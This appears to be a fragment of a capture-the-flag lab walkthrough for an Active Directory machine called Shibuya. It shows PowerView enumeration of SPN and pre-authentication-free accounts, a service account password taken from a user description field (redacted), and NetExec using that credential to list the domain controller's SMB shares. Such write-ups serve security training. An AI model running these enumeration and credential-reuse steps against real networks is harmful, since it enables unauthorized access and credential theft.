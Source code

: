 ```
(GC)-[AWSJPDC0522.shibuya.vl]-[SHIBUYA\RED$]
PV > Get-NetUser -SPN
cn                                : krbtgt
description                       : Key Distribution Center Service Account
distinguishedName                 : CN=krbtgt,CN=Users,DC=shibuya,DC=vl
memberOf                          : CN=Denied RODC Password Replication Group,CN=Users,DC=shibuya,DC=vl
name                              : krbtgt
objectGUID                        : {16fdd770-027b-479f-8e3b-d1d2c94d81ff}
userAccountControl                : ACCOUNTDISABLE [514]
                                    NORMAL_ACCOUNT
primaryGroupID                    : 513
objectSid                         : S-1-5-21-87560095-894484815-3652015022-502
sAMAccountName                    : krbtgt
sAMAccountType                    : SAM_USER_OBJECT
servicePrincipalName              : kadmin/changepw
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=shibuya,DC=vl

(GC)-[AWSJPDC0522.shibuya.vl]-[SHIBUYA\RED$]
PV > Get-NetUser -PreauthNotRequired
(GC)-[AWSJPDC0522.shibuya.vl]-[SHIBUYA\RED$]
PV > 

```
Found credentials for `svc_autojoin`
```
(GC)-[AWSJPDC0522.shibuya.vl]-[SHIBUYA\RED$]
PV > Get-NetUser -Properties samaccountname,description
sAMAccountName     : Martyn.Turner

<SNIP>
description        : <REDACTED>
sAMAccountName     : svc_autojoin

```

```
└─$ nxc smb 10.10.112.188 -u svc_autojoin -p '<REDACTED>' --shares
SMB         10.10.112.188   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.112.188   445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:<REDACTED> 
SMB         10.10.112.188   445    AWSJPDC0522      [*] Enumerated shares
SMB         10.10.112.188   445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.10.112.188   445    AWSJPDC0522      -----           -----------     ------
SMB         10.10.112.188   445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.10.112.188   445    AWSJPDC0522      C$                              Default share
SMB         10.10.112.188   445    AWSJPDC0522      images$         READ            
SMB         10.10.112.188   445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.10.112.188   445    AWSJPDC0522      NETLOGON        READ            Logon server share 
SMB         10.10.112.188   445    AWSJPDC0522      SYSVOL          READ            Logon server share 
SMB         10.10.112.188   445    AWSJPDC0522      users           READ   
```
